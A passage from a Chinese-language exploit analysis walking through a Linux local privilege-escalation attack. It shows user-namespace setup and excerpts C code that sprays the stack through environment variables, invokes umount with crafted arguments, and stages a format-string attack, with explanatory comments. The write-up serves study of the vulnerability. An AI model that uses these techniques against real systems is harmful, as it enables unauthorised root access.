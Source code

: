 然后在父进程里可以对子进程进行设置，通过设置 `setgroups` 为 deny，可以限制在新 namespace 里面调用 setgroups() 函数来设置 groups；通过设置 `uid_map` 和 `gid_map`，可以让子进程自己设置好挂载点。结果如下：

```text
$ cat /proc/10173/setgroups
deny
$ cat /proc/10173/uid_map
         0        999          1
$ cat /proc/10173/gid_map
         0        999          1
```

这样准备工作就做好了。进入第二部分 `attemptEscalation()` 函数：

```c
int attemptEscalation() {
  [...]
  pid_t childPid=fork();
  if(!childPid) {
    [...]
    result=chdir(targetCwd);    // 改变当前工作目录为 targetCwd

// Create so many environment variables for a kind of "stack spraying".
    int envCount=UMOUNT_ENV_VAR_COUNT;
    char **umountEnv=(char**)malloc((envCount+1)*sizeof(char*));
    umountEnv[envCount--]=NULL;
    umountEnv[envCount--]="LC_ALL=C.UTF-8";
    while(envCount>=0) {
      umountEnv[envCount--]="AANGUAGE=X.X";     // 喷射栈的上部
    }
// Invoke umount first by overwriting heap downwards using links
// for "down", then retriggering another error message ("busy")
// with hopefully similar same stack layout for other path "/".
    char* umountArgs[]={umountPathname, "/", "/", "/", "/", "/", "/", "/", "/", "/", "/", "down", "LABEL=78", "LABEL=789", "LABEL=789a", "LABEL=789ab", "LABEL=789abc", "LABEL=789abcd", "LABEL=789abcde", "LABEL=789abcdef", "LABEL=789abcdef0", "LABEL=789abcdef0", NULL};
    result=execve(umountArgs[0], umountArgs, umountEnv);
  }
  [...]
  int escalationPhase=0;
  [...]
  while(1) {
    if(escalationPhase==2) {    // 阶段 2 => case 3
      result=waitForTriggerPipeOpen(secondPhaseTriggerPipePathname);
      [...]
      escalationPhase++;
    }

// Wait at most 10 seconds for IO.
    result=poll(pollFdList, 1, 10000);
    [...]
// Perform the IO operations without blocking.
    if(pollFdList[0].revents&(POLLIN|POLLHUP)) {
      result=read(
          pollFdList[0].fd, readBuffer+readDataLength,
          sizeof(readBuffer)-readDataLength);
      [...]
      readDataLength+=result;

// Handle the data depending on escalation phase.
      int moveLength=0;
      switch(escalationPhase) {
        case 0: // Initial sync: read A*8 preamble.     // 阶段 0，读取我们精心构造的 util-linux.mo 文件中的格式化字符串。成功写入 8*'A' 的 preamble
          [...]
```